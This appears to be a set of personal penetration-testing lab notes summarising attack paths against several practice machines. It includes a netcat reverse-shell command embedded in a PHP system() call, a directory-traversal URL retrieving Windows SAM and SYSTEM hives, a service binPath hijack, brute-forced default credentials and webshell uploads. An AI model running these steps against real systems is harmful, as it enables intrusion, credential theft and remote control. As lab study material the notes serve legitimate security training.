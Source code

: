## Paths to Victory


1. Unusual nmap ftp output
2. Retrieve file with hash
3. Use credentials to connect to admin interface on website
4. Upload netcat.exe, then php file including system('netcat.exe -vv 192.168.4.178 443 -e cmd.exe'); that triggers netcat.exe to get a shell
5. Upload jsp shell file to web app that's running as admin in folder exposed to internet
sc config servicename binPath= "C:\Path\To\New\Service.exe"

1. Find version through network developers tool section where it's retrieving/using a js file
2. There are various exploits and vulnerabilities, and it ends up being one that was newer than the version

1. Website vulnerable to directory traversal and LFI, found through search
2. Retrieve/wget old SAM and SYSTEM files located in "http://192.168.33.165/..%5C..%5C..%5C..%5C..%5Cwindows..%5Csystem..%5Cconfig..%5Cregback..%5Csystem.old"
3. Pwdump to get hashes
4. Login to RDP

1. Few ports open on linux, 22, 80, 389 & 443
2. Find exploit for the nagios webapp from a niche security blog
3. Get www-data user, and use the same exploit to escalate privs to root

1. FreeSWITCH is running as webapp
2. Find RCE exploit, test that it's working
3. Upload nc.exe with PowerShell with exploit
4. Trigger nc.exe with exploit
5. Machine has vulnerable service path
6. Rename existing service
7. Upload/rename rev binary to path folder
8. Reboot machine

1. Find admin interface on Blogengine.net webapp
2. User/pass is Admin:Admin found with hydra brute force
3. Find exploit
4. Rename exploit to PostView.ascx and get webshell
5. iwr command for normal shell
6. Exploit SeCreateTokenPrivilege with file from https://www.greyhathacker.net/?p=1025 and run maybe 20 times
1. Three separate webapps,api,login with many rabbit holes, buggy ftp with anon access, smb, etc.

1. Bunch of web service with an api
2. CSRF via one of the apis, tested with curl (deep rabbit hole with ruby webapp login and routes)
3. Execute nc revshell on same port as api
4. With sudo -l /sbin/reboot, and modifiable /etc/systemd/system/pythonapp.service, changed file User param to root and rebooted
5. Same api nc command, but as root this time

1. Struggling smb session, wonky website, Windows workgroup for linux website, all distract from vulnerable SMTP version
2. ExploitDB exploits work enough to ping but nothing else
3. Go on github and try a few until one works
